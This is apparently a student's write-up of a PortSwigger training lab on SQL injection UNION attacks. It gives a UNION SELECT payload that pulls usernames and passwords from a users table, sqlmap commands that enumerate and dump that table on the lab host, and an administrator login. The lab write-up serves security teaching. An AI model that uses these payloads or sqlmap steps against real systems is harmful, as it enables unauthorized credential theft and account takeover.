






# SQL injection UNION attack, retrieving data from other tables

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Definition
When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

Suppose that:

- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause.
- The database contains a table called users with the columns username and password.

In this situation, you can retrieve the contents of the users table by submitting the input:
```sql
' UNION SELECT username, password FROM users--
```

Of course, the crucial information needed to perform this attack is that there is a table called users with two columns called username and password. Without this information, you would be left trying to guess the names of tables and columns. In fact, all modern databases provide ways of examining the database structure, to determine what tables and columns it contains. 

## Notes
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

**SQLMAP**  
Through [sqlmap](https://github.com/sqlmapproject/sqlmap) was possible to confirm the sql injection flaw as well as retrieve sensitive information from the database.

The following images presents the sequence of steps executed in order to find the table responsible for holder user's credentials and list  its content.
  
```bash
python3 sqlmap.py -u "https://0aae00b704c6cbc8c04e5097007000ce.web-security-academy.net/filter?category=Pets" -v --tables --exclude-sysdbs
```

  
```bash
python3 sqlmap.py -u "https://0aae00b704c6cbc8c04e5097007000ce.web-security-academy.net/filter?category=Pets" -v --dbms POSTGRES --columns -D public
```

  
```bash
python3 sqlmap.py -u "https://0aae00b704c6cbc8c04e5097007000ce.web-security-academy.net/filter?category=Pets" -v --dump -T users
```


**MANUALLY**

Alternatively, is possible achieve the same result manually by injecting the SQL statement below in the category parameter:
```
?category=Lifestyle'+UNION+SELECT+username,password+FROM+users--
```

  


**PRIVILEGED ACCESS**

The image below shows the `My Account` page after a successfully login as administrator.
  


## Key Words
> sql injection, union, retrieving information, sqlmap